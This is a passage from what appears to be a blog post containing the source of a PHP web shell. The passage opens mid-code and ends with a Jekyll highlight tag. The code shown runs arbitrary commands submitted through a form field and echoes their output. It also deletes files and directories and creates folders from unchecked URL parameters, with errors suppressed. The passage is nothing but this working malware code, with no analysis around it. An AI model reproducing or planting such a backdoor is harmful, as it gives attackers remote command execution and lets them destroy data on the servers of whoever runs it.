} elseif (isset($_GET['x']) && ($_GET['x'] == 'shell')) { ?> &lt;form action="?y=<?php echo $pwd; ?>&amp;x=shell" method="post"&gt; &lt;table class="cmdbox"&gt; &lt;tr&gt;&lt;td colspan="2"&gt; &lt;textarea class="output" readonly&gt; <?php if (isset($_POST['submitcmd'])) {
        echo @exe($_POST['cmd']);
    } ?> &lt;/textarea&gt; &lt;tr&gt;&lt;td colspan="2"&gt;<?php echo $prompt; ?>&lt;input onMouseOver="this.focus();" id="cmd" class="inputz" type="text" name="cmd" style="width:60%;" value="" /&gt;&lt;input class="inputzbut" type="submit" value="Go !" name="submitcmd" style="width:12%;" /&gt;&lt;/td&gt;&lt;/tr&gt; &lt;/table&gt; &lt;/form&gt; <?php
} else {
    if (isset($_GET['delete']) && ($_GET['delete'] != "")) {
        $file = $_GET['delete'];
        @unlink($file);
    } elseif (isset($_GET['fdelete']) && ($_GET['fdelete'] != "")) {
        @rmdir(rtrim($_GET['fdelete'], DIRECTORY_SEPARATOR));
    } elseif (isset($_GET['mkdir']) && ($_GET['mkdir'] != "")) {
        $path = $pwd . $_GET['mkdir'];
        @mkdir($path);
    }
    $buff = showdir($pwd, $prompt);
    echo $buff;
} ?> &lt;/div&gt; &lt;/body&gt; &lt;/html&gt;
{% endhighlight %}